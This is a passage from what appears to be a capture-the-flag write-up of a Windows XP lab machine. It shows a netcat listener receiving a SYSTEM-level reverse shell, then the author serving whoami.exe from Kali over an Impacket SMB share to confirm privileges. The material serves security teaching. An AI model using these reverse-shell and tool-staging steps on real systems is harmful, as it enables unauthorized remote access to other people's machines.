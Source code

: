     
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.4.
    Ncat: Connection from 10.10.10.4:1029.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\WINDOWS\system32>
    

## Beyond Root - Whoami

XP doesn’t have a `whoami` binary or command! So while I suspected that I was
system with both of these exploits, how would I know:

    
    
    C:\WINDOWS\system32>whoami
    whoami
    'whoami' is not recognized as an internal or external command,
    operable program or batch file.
    

For most users, I can use `echo` and the `%username%` environment variable:

    
    
    C:\WINDOWS\system32>echo %username%
    %username%
    

The fact that that environment variable doesn’t expand is a good sign that I’m
system. If I want to go further, I can use `whoami.exe`, which is already on
kali by default:

    
    
    root@kali# locate whoami.exe
    /usr/share/windows-binaries/whoami.exe
    

I’ll just share that folder over SMB with the command:

    
    
    root@kali# smbserver.py a /usr/share/windows-binaries/
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

Now I’ll run it and see I’m system:

    